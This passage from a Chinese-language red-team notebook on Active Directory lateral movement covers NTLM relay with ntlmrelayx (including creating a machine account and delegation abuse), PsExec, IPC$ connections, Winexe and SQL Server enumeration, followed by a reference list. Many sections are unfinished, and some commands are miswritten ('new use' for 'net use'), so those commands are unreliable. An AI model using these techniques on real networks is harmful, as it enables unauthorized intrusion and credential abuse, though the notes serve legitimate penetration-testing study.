[*] HTTPD(80): Authenticating against ldaps://192.168.37.1 as RAINGRAY/ZHANGQI SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Attempting to create computer in: CN=Computers,DC=raingray,DC=com
[*] Adding new computer with username: ADDMACHINEACCOUNT$ and password: V>rG>VDon.m^}k< result: OK
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Connection from 192.168.37.3 controlled, but there are no more targets left!
```

**四、使用 mitm6 进行 DHCPv6 Spoofing-基于资源的约束委派⚒️**

需要先了解基于资源的约束委派是什么，怎么利用再来看中继怎么利用委派，不然一头雾水。

```cpp
python3 ntlmrelayx.py -t ldaps://<Domain Controller IP> --no-smb-server --no-wcf-server --no-raw-server --delegate-access
```

**五、使用 mitm6 进行 DHCPv6 Spoofing-提升指定用户权限⚒️**

\--escalate-user

###### HTTP To HTTP⚒️

Exchenage

ADCS

##### 扩展：NTLMv1 降级攻击⚒️

[r-tec 博客 |NetNTLMv1 降级妥协 - r-tec Cyber Security](https://www.r-tec.net/r-tec-blog-netntlmv1-downgrade-to-compromise.html)

[NotMedic/NetNTLMtoSilverTicket：SpoolSample -> 响应程序，w/NetNTLM 降级 -> NetNTLMv1 -> NTLM -> Kerberos 银票 (github.com)](https://github.com/NotMedic/NetNTLMtoSilverTicket)

[深入研究 NTLM 降级攻击 - Praetorian](https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/)

[NTLMv1 降级 - 渗透测试员的混杂笔记本 (snovvcrash.rocks)](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ntlm/ntlmv1-downgrade)

[TrustedSec 信任证券 |针对 NTLMv1 的实际攻击](https://www.trustedsec.com/blog/practical-attacks-against-ntlmv1)

NTLMv1 破解：

[Windows 下的密码 hash——Net-NTLMv1 介绍 (3gstudent.github.io)](https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-Net-NTLMv1%E4%BB%8B%E7%BB%8D)

[Net- NTLM 利用 - windows protocol (gitbook.io)](https://daiker.gitbook.io/windows-protocol/ntlm-pian/6#1.-netntlm-v1-de-po-jie)

### 3.3 Remote Services⚒️

先将协议原理，涉及使用的端口，以及利用条件是什么，比如需要什么哈希或者明文账户，这个账户需要的是什么权限。最后把这个操作会触发的日志说清楚，防止动静过大。

#### SMB

默认情况下 Windows 10/11 是不启用 445 端口和 ICMP 协议，只有主动启用共享后才自动开放这两防火墙入站规则。Windows Server 不受限制。

主动共享时会提示是否开启共享和开启网络发现（此电脑 -> 网络）。



在防火墙中对应的配置文件已经开启 ICMP 和 445。



这些设置可以在高级共享配置中管理。关闭文件和打印机共享，对应入站防火墙规则就禁用。



##### MS08-067

早些年可能会存在，但如今 2023 年，很少会使用 WIndows XP、Windows Server 2008 了。

##### MS17-010（EhernalBlue，永恒之蓝）

#### PsExec⚒️

1.Sysinternals PsExec

[https://learn.microsoft.com/zh-cn/sysinternals/downloads/psexec](https://learn.microsoft.com/zh-cn/sysinternals/downloads/psexec)

[https://www.smokescreen.io/assets/uploads/2020/08/GUIDE-Smokescreen-Top-Lateral-Movement-Techniques-Red-Team-Edition.pdf，当中提到](https://www.smokescreen.io/assets/uploads/2020/08/GUIDE-Smokescreen-Top-Lateral-Movement-Techniques-Red-Team-Edition.pdf%EF%BC%8C%E5%BD%93%E4%B8%AD%E6%8F%90%E5%88%B0) psexec 利用条件，这种简述方式简单明了。

psexec 是 Sysinternals 工具集中的一种

此工具第一次运行会让同意使用许可。通过 psexec 文档发现，-accepteula 选项可以自动同意许可。经测试此选项 Sysinternals 内的 PsLoggedon64.exe 也能使用，是通用的。

[https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)

本质上通过 SMB 的 TCP 端口 445 连接到目标 Admin$（Admin Share），上传 psexesvc.exe 程序，并创建名为 PSEXESVC 的服务，命令运行的结果输出到命名管道。必须使用 Administrators 组内成员进行连接**需要自己亲自验证过程。**

[https://learn.microsoft.com/zh-cn/troubleshoot/windows-server/networking/inter-process-communication-share-null-sessio](https://learn.microsoft.com/zh-cn/troubleshoot/windows-server/networking/inter-process-communication-share-null-sessio)

```plaintext
psexec64.exe \\<Target IP> -u <UserName> -p <Password> -i <Command>
```

通过账户连接上去，上传文件创建任务计划反弹 Shell。**目标要开启 135、445 才能连接 ipc。待确认**

```plaintext
new use \\<Host>\ipc$ "Password" /user:<Username>
```

连接域账户这样写。

```plaintext
new use \\<Host>\ipc$ "Password" /user:<Domain>\<Username>
```

如果对搜集到账户密码一个个手动连接不现实，可以通过脚本批量组合对所有主机尝试进行连接。**待编写脚本**

```plaintext
<Host>
<UserName>
<Password>
```

2.Impacket psexec.py

通过 Impacket 工具包 [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) 使用哈希执行命令。

[impacket-examples-windows](https://github.com/maaaaz/impacket-examples-windows) 还有人将整个 Impacket 从 python 打包成 exe，避免了 Windows 机器上运行无依赖的问题，不过并不是最新版，最好自己要用到时重新打包一份。

#### WinRM

Windows Remote Management，一种 https:// 协议。

使用的端口

```plaintext
Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
```

必须使用 Windows Server 中 Remote Management Users 组成员进行连接。

#### WMI

#### DCOM

#### Winexe

[Winexe](https://www.kali.org/tools/winexe/) 并不是内置的程序，需要自己编译上传到目标运行，或者代理流量使用。

使用 Username 连接到 Host 执行命令 cmd.exe。

```plaintext
winexe -U <UserName> --system --ostype=1 //<Host> cmd.exe
```

#### RDP

SharpRDP。

#### SSH

#### VNC

在国内不知道使用的频率高不高。

#### File Share

这里的共享是泛指一切可以共享文件的服务，比如 SMB、FTP 等。

如果共享有权限读写文件，可以找找哪些文件访问频率高，将其备份替换成 Payload 等待对方上线，这具有时间上的不确定性。也要考虑到防守方可以设置共享蜜罐，一旦更改或读取上面的文件就触发告警。

#### SQL Server⚒️

扫默认端口 1433，确认服务存活。

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 可以自动获取域里注册 SPN 的 SQL Server 服务。

```plaintext
Get-SQLInstanceDomain
```

检查 SQL Server 是否能访问。

```plaintext
Get-SQLConnectionTestThreaded -Instance <Instance>
```

上面两条也可以组合起来，批量查有哪些 SQL Server 能不能访问。

```plaintext
Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded
```

查看单个服务器信息

```plaintext
Get-SQLServerInfoThreaded -Instance <Instance>
```

查看指定 SQL Server 有没链接到其他 SQL Server。

```plaintext
Get-SqlServerLinkCrawl -Verbose -Instance <Instance>
```

SQL Recon 也可以查看指定 SQL Server 服务器信息。

```plaintext
sqlrecon.exe -a Windows -s <SQL server hostname> -m info
```

#### Exchange⚒️

#### vCenter

大型企业中内网虚拟桌面都用 vCenter、ESXi

## 参考资料

PowerView

-   [关于 - PowerSploit](https://powersploit.readthedocs.io/en/latest/Recon/)  
    [PowerSploit/Recon at master · PowerShellMafia/PowerSploit · GitHub](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)  
    [PowerView-3.0 tips and tricks (github.com)](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

Active Directory Exploitation Cheat Sheet

-   [S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet: A cheat sheet that contains common enumeration and attack methods for Windows Active Directory. (github.com)](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
-   [infosecn1nja/AD-Attack-Defense: Attack and defend active directory using modern post exploitation adversary tradecraft activity (github.com)](https://github.com/infosecn1nja/AD-Attack-Defense)

Kerberos Exploit

-   [Kerberos Network Authentication Service (V5) Synopsis | Microsoft Learn](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/b4af186e-b2ff-43f9-b18e-eedb366abf13)，Kerberos Authentication
-   [TryHackMe | Attacking Kerberos](https://tryhackme.com/room/attackingkerberos)
-   [Active Directory Security Risk #101: Kerberos Unconstrained Delegation (or How Compromise of a Single Server Can Compromise the Domain)](https://adsecurity.org/?p=1667)，关于非约束委派的利用，站点其他关于 AD 域安全的资料也非常好
-   [S4U2Pwnage](https://blog.harmj0y.net/activedirectory/s4u2pwnage)
-   [Kerberos Constrained Delegation Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview)
-   [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
-   [利用资源约束委派进行的提权攻击分析](http://blog.nsfocus.net/analysis-attacks-entitlement-resource-constrained-delegation/)
-   [BloodHound 2.1's New Computer Takeover Attack](https://www.youtube.com/watch?v=RUbADHcBLKg)，RBCD 接管
-   [域渗透之委派攻击详解（非约束委派/约束委派/资源委派）](https://mp.weixin.qq.com/s/WyFeKkmzIjqcbP5uciDW6Q)
-   [Delegating Like a Boss: Abusing Kerberos Delegation in Active Directory](https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)
-   [CVE-2020-17049: Kerberos Bronze Bit Attack – Theory](https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory)，约束委派可转发绕过理论篇，很好的介绍了 Kerberos 认证整个原理和流程
-   [CVE-2020-17049: Kerberos Bronze Bit Attack – Practical Exploitation](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack)，约束委派可转发绕过利用篇

NTLM Authentication

-   [NTLM Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
-   [NT LAN Manager (NTLM) Authentication Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b38c36ed-2804-4868-a9ff-8dd3182128e4)
-   [NTLM 篇 - windows protocol (gitbook.io)](https://daiker.gitbook.io/windows-protocol/ntlm-pian)
-   [Windows authentication attacks – part 1](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/)，讲了 NT Hash 和 NTLM 认证
-   [Windows Internals, Part 1, 7th Edition](https://book.douban.com/subject/35453564/)，其中第七章节讲述了用户认证
-   [Inside the Mimikatz Pass-the-Hash Command (Part 1)](https://www.praetorian.com/blog/inside-mimikatz-part1/)，讲述了 Windows 认证基础

Pass The Hash

-   [Lateral Movement: Pass the Hash Attack](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)
-   [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://posts.specterops.io/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy-506c25a7c167)
-   [迷一样的 KB22871997](https://github.com/mabangde/ADSec-and-RedTeam/blob/master/%E8%BF%B7%E4%B8%80%E6%A0%B7%E7%9A%84KB2871997.md)
-   [Microsoft 安全公告：用于改进凭据保护和管理的更新：2014 年 5 月 13 日](https://support.microsoft.com/zh-cn/topic/microsoft-%E5%AE%89%E5%85%A8%E5%85%AC%E5%91%8A-%E7%94%A8%E4%BA%8E%E6%94%B9%E8%BF%9B%E5%87%AD%E6%8D%AE%E4%BF%9D%E6%8A%A4%E5%92%8C%E7%AE%A1%E7%90%86%E7%9A%84%E6%9B%B4%E6%96%B0-2014-%E5%B9%B4-5-%E6%9C%88-13-%E6%97%A5-93434251-04ac-b7f3-52aa-9f951c14b649)

NTLM Relay

-   [SANS Workshop – NTLM Relaying 101: How Internal Pentesters Compromise Domains | SANS Institute](https://www.sans.org/webcasts/sans-workshop-ntlm-relaying-101-how-internal-pentesters-compromise-domains/)，关于 NTLM Relay 的基础教学  
    [(4) SANS Workshop – NTLM Relaying 101: How Internal Pentesters Compromise Domains - YouTube](https://www.youtube.com/watch?v=hJlLBOvXo-c)，Video  
    [Preamble and prerequisites - NTLM relaying 101: How pentesters pwn domains (gitbook.io)](https://jfmaes-1.gitbook.io/ntlm-relaying-like-a-boss-get-da-before-lunch/)，presentation slides
-   [Relaying 101 – LuemmelSec – Just an admin on someone else´s computer](https://luemmelsec.github.io/Relaying-101/)
-   [I’m bringing relaying back: A comprehensive guide on relaying anno 2022](https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022)
-   [Offensive AD - 101 (owasp.org)](https://owasp.org/www-pdf-archive/OWASP_FFM_41_OffensiveActiveDirectory_101_MichaelRitter.pdf)，域攻击面，可以按照 PPT 梳理一波，对博客横向移动文章查漏补缺
-   [Back To Basics: NTLM Relay](https://warroom.rsmus.com/how-to-perform-ntlm-relay/)
-   [A guide to relaying credentials everywhere in 2022](https://www.secureauth.com/blog/we-love-relaying-credentials-a-technical-guide-to-relaying-credentials-everywhere/)，ntlmrelayx.py 工具使用及原理介绍。  
    [Playing with Relayed Credentials](https://www.secureauth.com/blog/playing-with-relayed-credentials/)，介绍了 ntlmrelayx.py -socks 选项
-   [NTLM Relay](https://en.hackndo.com/ntlm-relay/)，从协议到签名，理论讲解的很透  
    [“NTLM relay under the hood” by Pixis @ DEFCON Paris (13-NOV-2023)](https://www.youtube.com/watch?v=zWOlGrmT6y0)，作者直接把博客的文章进行讲解
-   [渗透技巧 - 通过 HTTP 协议获得 Net-NTLM-hash](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%80%9A%E8%BF%87HTTP%E5%8D%8F%E8%AE%AE%E8%8E%B7%E5%BE%97Net-NTLM-hash)  
    [Windows 下的密码 hash-NTLM-hash 和 Net-NTLM-hash 介绍](https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D#1%E4%BD%BF%E7%94%A8%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB%E7%9A%84%E6%96%B9%E5%BC%8F%E6%9D%A5%E8%8E%B7%E5%8F%96net-ntlm-hash%E5%B8%B8%E7%94%A8%E5%B7%A5%E5%85%B7%E4%B8%BAresponder%E5%92%8Cinveigh)，教你怎么捕获 NTLM hash  
    [发起 NTLM 请求 - windows protocol (gitbook.io)](https://daiker.gitbook.io/windows-protocol/ntlm-pian/5#3.-yong-hu-tou-xiang)，获取 NTLM 哈希的方式
-   [capture](https://www.thehacker.recipes/a-d/movement/ntlm/capture)，怎么捕获 NTLMv1 hash，是降级攻击
-   [Yongtao Wang, Yang Zhang - NTLM Relay Risk Is Coming: A New Exploit Technique Makes It Reborn](https://github.com/ssd-secure-disclosure/typhooncon2019/raw/master/Yongtao%20Wang%20%26%20Yang%20Zhang%20-%20NTLM%20Relay%20Risk%20Is%20Coming_%20A%20New%20Exploit%20Technique%20Makes%20It%20Reborn.pdf)，NTLM 利用新姿势

最近更新：2024 年 01 月 16 日 08:45:06

发布时间：2022 年 09 月 20 日 16:46:00
